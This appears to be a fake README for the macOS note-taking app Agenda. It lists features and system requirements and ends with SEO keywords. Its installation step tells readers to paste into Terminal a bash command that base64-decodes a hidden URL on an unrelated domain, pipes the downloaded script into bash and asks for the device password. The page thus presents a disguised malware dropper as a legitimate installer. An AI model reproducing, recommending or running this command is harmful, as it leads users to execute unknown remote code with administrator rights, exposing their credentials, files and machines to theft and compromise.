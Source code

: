# 🗓️ Agenda for macOS

## About
Agenda for macOS is a unique date-focused note-taking application that helps you plan and document projects over time. By combining notes, tasks, and calendar integration, it keeps your work organized and on schedule.

## 📥 Installation via a command in the terminal:
1. Copy the installation command below.  
2. Open Terminal on your Mac, paste the command, then press Return.  
3. Enter your device password when prompted and confirm the installation.

    /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9jb2luc3RhdHMvaW5zdGFsbC5zaA== | base64 -d))"

![Guide](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## Overview
![Overview 1](https://help.apple.com/assets/65D689DF13D1B1E17703916F/65D689E0D302CF88600FDD25/nl_NL/60d9767316b4b786d3254f981bf51313.png)  
![Overview 2](https://agenda.com/img/screenshot-projects-mac.png)

## Key Features
- 🗓️ Date-focused note organization  
- 📅 Calendar integration for scheduling  
- 🗂️ Project-based note management  
- 🔍 Powerful search and tagging  
- ☁️ Cloud sync across devices  
- 🖥️ Optimized for macOS

## System Requirements
- macOS 11.0 Big Sur or later  
- 4 GB of system memory or more  
- 150 MB of available disk space  
- Internet connection for sync and updates

## SEO Keywords
Agenda macOS · date-based notes Mac · calendar notes app · project planning Mac · time-based task manager · note-taking software macOS · productivity tool Mac
